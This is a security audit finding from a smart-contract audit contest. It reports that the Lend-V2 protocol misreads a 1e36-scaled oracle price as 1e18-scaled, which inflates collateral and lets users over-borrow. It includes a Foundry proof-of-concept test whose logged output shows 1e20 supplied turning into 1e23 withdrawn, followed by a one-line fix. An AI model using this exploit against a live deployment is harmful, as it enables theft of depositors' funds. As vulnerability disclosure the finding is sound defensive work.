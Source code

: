 Boxy Ebony Rattlesnake

High

# Collateral Calculations Are Overstated by 1e18 Times

### Summary
The `oraclePrice` is a value scaled to 1e36 but is used as if it were scaled to 1e18. This results in inflated collateral calculations, allowing users to borrow significantly more than their actual collateral.

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/Uniswap/UniswapAnchoredView.sol#L118
```solidity
    function getUnderlyingPrice(address lToken) external view returns (uint256) {
        TokenConfig memory config = getTokenConfigByLToken(lToken);
        // Comptroller needs prices in the format: ${raw price} * 1e36 / baseUnit
        // The baseUnit of an asset is the amount of the smallest denomination of that asset per whole.
        // For example, the baseUnit of ETH is 1e18.
        // Since the prices in this view have 6 decimals, we must scale them by 1e(36 - 6)/baseUnit
        return FullMath.mulDiv(1e30, priceInternal(config), config.baseUnit);
    }
```

### Root Cause
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/LendStorage.sol#L408
```solidity
    function getHypotheticalAccountLiquidityCollateral(
        address account,
        LToken lTokenModify,
        uint256 redeemTokens,
        uint256 borrowAmount
    ) public view returns (uint256, uint256) {
        AccountLiquidityLocalVars memory vars;

        // Calculate collateral value from supplied assets
        address[] memory suppliedAssets = userSuppliedAssets[account].values();
        address[] memory borrowedAssets = userBorrowedAssets[account].values();

        // First loop: Calculate collateral value from supplied assets
        for (uint256 i = 0; i < suppliedAssets.length;) {
            LToken asset = LToken(suppliedAssets[i]);
            uint256 lTokenBalanceInternal = totalInvestment[account][address(asset)];

            // Get collateral factor and price for this asset
            vars.collateralFactor =
                Exp({mantissa: LendtrollerInterfaceV2(lendtroller).getCollateralFactorMantissa(address(asset))});
            vars.exchangeRate = Exp({mantissa: asset.exchangeRateStored()});

            vars.oraclePriceMantissa = UniswapAnchoredViewInterface(priceOracle).getUnderlyingPrice(asset);
408:        vars.oraclePrice = Exp({mantissa: vars.oraclePriceMantissa});
            vars.tokensToDenom = mul_(mul_(vars.collateralFactor, vars.exchangeRate), vars.oraclePrice);

            // Add to collateral sum
            vars.sumCollateral =
                mul_ScalarTruncateAddUInt(vars.tokensToDenom, lTokenBalanceInternal, vars.sumCollateral);

            unchecked {
                ++i;
            }
        }
        ...
    }
```
### Internal pre-conditions
N/A

### External pre-conditions
N/A

### Attack Path
N/A

### PoC
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/test/mocks/TestLendAccrual.t.sol
```solidity
    function test_borrow1() public {

        uint256 supplyAmount = 100e18;
        (address token, address lToken) = _supply(supplyAmount * 1e4, user1);

        ERC20Mock(token).mint(user2, supplyAmount);

        uint256 initialBalance = ERC20Mock(token).balanceOf(user2);

        vm.startPrank(user2);
        IERC20(token).approve(address(coreRouter), supplyAmount);
        coreRouter.supply(supplyAmount, token);
        vm.stopPrank();


        uint256 borrowAmount = supplyAmount * 1e3;

        vm.prank(user2);
        coreRouter.borrow(borrowAmount, token);

        uint256 finalBalance = ERC20Mock(token).balanceOf(user2);

        console2.log("initialBalance : %e", initialBalance);
        console2.log("finalBalance   : %e", finalBalance);
    }
```
forge test --match-test "test_borrow1" -vv

Result:
```bash
Ran 1 test for test/mocks/TestLendAccrual.t.sol:TestLendAccrual
[PASS] test_borrow1() (gas: 959409)
Logs:
  initialBalance : 1e20
  finalBalance   : 1e23
```
### Impact
An attacker can withdraw all of the protocol's assets using only a small amount of collateral.

### Mitigation
```diff
-408:        vars.oraclePrice = Exp({mantissa: vars.oraclePriceMantissa});
+408:        vars.oraclePrice = Double({mantissa: vars.oraclePriceMantissa});
```
